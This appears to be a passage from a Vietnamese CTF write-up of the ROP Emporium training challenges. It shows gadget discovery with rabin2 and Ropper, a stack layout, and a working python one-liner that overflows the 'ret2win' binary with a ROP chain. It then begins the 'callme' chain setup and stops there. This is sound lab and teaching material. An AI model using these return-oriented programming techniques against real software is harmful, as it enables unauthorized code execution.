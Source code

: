 ```text-plain
$ rabin2 -s ret2win
[Symbols]
nth paddr      vaddr      bind   type   size lib name
―――――――――――――――――――――――――――――――――――――――――――――――――――――
...
36  0x00000756 0x00400756 LOCAL  FUNC   27       ret2win
...

$ python3 Ropper.py -f ret2win
...
0x000000000040053e: ret;
```

Ta sẽ build stack như sau:

```text-plain
  [A*8  ]
  [.....]
  [A*8  ] -> 40*A
  [0x40053e] -> ret;
  [0x400756] -> ret2win();
```

Truyền payload vào binary

```text-plain
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x3e\x05\x40\x00' + b'\x00'*4  + b'\x56\x07\x40\x00' + b'\x00'*4)" | ./ret2win
```

## Callme
Challenge 3 sẽ hướng dẫn gọi 3 hàm liên tiếp theo thứ tự, chỉ cần gọi đúng thứ tự thì sẽ in ra flag

Reverse bằng Ghidra ta sẽ thấy 3 hàm lần lượt là callme\_one, callme\_two, callme\_three

![]({static}/images/ropemporium/Callme/image.png)

Mỗi hàm cần truyền vào 3 tham số arg1, arg2 và arg3 lần lượt là 0xdeadbeef, 0xcafebabe và 0xd00df00d để có thể gọi hàm kế tiếp

![]({static}/images/ropemporium/Callme/1_image.png)

3 hàm này sử dụng lazy binding để thay đổi địa chỉ trong GOT và sẽ gọi đến địa chỉ hàm trong libcallme.so, tuy nhiên ta chỉ cần gọi địa chỉ của hàm trong binary là được. Tiến hành lấy các gadget cần thiết

```text-plain
$ rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
3   0x004006f0 GLOBAL FUNC       callme_three
...
7   0x00400720 GLOBAL FUNC       callme_one
...
10  0x00400740 GLOBAL FUNC       callme_two
...

$ python3 Ropper.py -f callme
...
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004006be: ret;
```
